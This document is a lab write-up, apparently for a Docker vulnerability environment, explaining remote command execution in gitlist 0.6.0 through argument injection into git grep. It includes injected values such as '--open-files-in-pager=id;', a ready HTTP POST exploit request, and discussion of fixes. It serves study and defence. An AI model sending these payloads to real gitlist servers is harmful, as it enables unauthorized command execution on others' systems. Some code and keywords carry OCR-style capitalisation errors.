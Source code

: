 # gitlist 0.6.0 Remote Command Execution Vulnerability

Gitlist is a graphical git repository viewing tool developed in PHP. In its version 0.6.0, there is a command parameter injection problem that can lead to remote command execution vulnerabilities.

## Environment Building

Run the following command to start the vulnerability environment:

```
Docker-compose up -d
```

After the environment is started, visit `http://your-ip:8080` and you will see a repository named `example`.

## Vulnerability Principle

When the user searches the code in the repository, gitlist will call the `git grep` command:

```php
Public function searchTree($query, $branch)
{
    If (empty($query)) {
        Return null;
    }

    $query = escapeshellarg($query);

    Try {
        $results = $this->getClient()->run($this, "grep -i --line-number {$query} $branch");
    } catch (\RuntimeException $e) {
        Return false;
    }
```

Among them, `$query` is the search keyword, and `$branch` is the branch of the search.

If the value of `$query` entered by the user is `--open-files-in-pager=id;`, the `id` command will be executed:

![](img/1.png)

There are several reasons for this vulnerability:

1. The developer misunderstood the `escapeshellarg` function, causing parameter injection
2. The value of `--g-open-files-in-pager` of `git grep` will be executed directly.

In theory, after $$query = escapeshellarg($query);`, `$query` will become a string enclosed in single quotes. But the premise of the loophole is that the string should appear in the "parameter value" instead of appearing in the option.

We can try the following commands:

```
Git grep -i --line-number -e '--open-files-in-pager=id;' master
```

![](img/2.png)

As shown above, I put `$query` in the position of the value of the `-e` parameter. At this time, it is just a string and will not be treated as a parameter `--open-files-in-pager` .

This should be the best fix for this vulnerability, and it is also a solution to the git official case where the pattern may be user input (the following description is from man-page):

> -e
> The next parameter is the pattern. This option has to be used for patterns starting with - and should be used in scripts passing user input to grep. Multiple patterns are combined by
> or.

Of course, developers of gitlist use another fix:

```php
Public function searchTree($query, $branch)
{
    If (empty($query)) {
        Return null;
    }
    $query = preg_replace('/(--??[A-Za-z0-9\-]+)/', '', $query);
    $query = escapeshellarg($query);
    Try {
        $results = $this->getClient()->run($this, "grep -i --line-number -- {$query} $branch");
    } catch (\RuntimeException $e) {
        Return false;
    }
```

First remove the illegal characters starting with `-` with `preg_replace`, then put `$query` after `--`. In the command line parser, `--` means that the following sections will no longer contain argument options:

> A - signals the end of options and disables further option processing. Any arguments after the -- are treated as filenames and arguments. An argument of - is equivalent to --.
>
> If arguments remain after option processing, and neither the -c nor the -s option has been supplied, the first argument is assumed to be the name of a file containing shell commands. If bash is invoked in this fashion, $0 is set to The name of the file, and the positional parameters are set to the remaining arguments. Bash reads and executes commands from this file, then exits. Bash's exit status is the exit status of the last command executed in the script. , the exit status is 0. An attempt is first made to open the file in the current directory, and, if no file is found, then the shell searches the directories in PATH for the script.

For a simple example, if we need to view a file whose name is `--name`, we can't use `cat --name` to read it, nor can we use `cat '--name'`, but must Use `cat -- --name`. As can be seen from this example, single quotes are not a criterion for distinguishing whether a string is a "parameter value" or an "option".

![](img/3.png)

So the official fix is ​​also acceptable, except that the first step of `preg_replace` affects the normal search function.

## Vulnerability recurrence

Send the following data packet:

```
POST /example/tree/a/search HTTP/1.1
Host: your-ip:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html, application/xhtml+xml, application/xml; q=0.9, image/webp, image/apng, */*; q=0.8
Content-Length: 56

Query=--open-files-in-pager=touch /tmp/success;
```

Among them, we are accessing `/example/tree/a/search`, example is the project name, it needs to be an existing project on the target gitlist; a should be the name of the branch under normal circumstances, that is, `"grep - i --line-number {$query} `$branch` in $branch"`, but since our `$query` is treated as a parameter, `$branch` should be used as the search keyword.

If there is no search result, our order will not be executed, so I used the keyword "a", just to ensure that the results can be found, you can also switch to other attempts.

After the packet is sent, use `docker-compose exec web bash` to enter the container. It can be seen that `/tmp/success` has been successfully created:

![](img/4.png)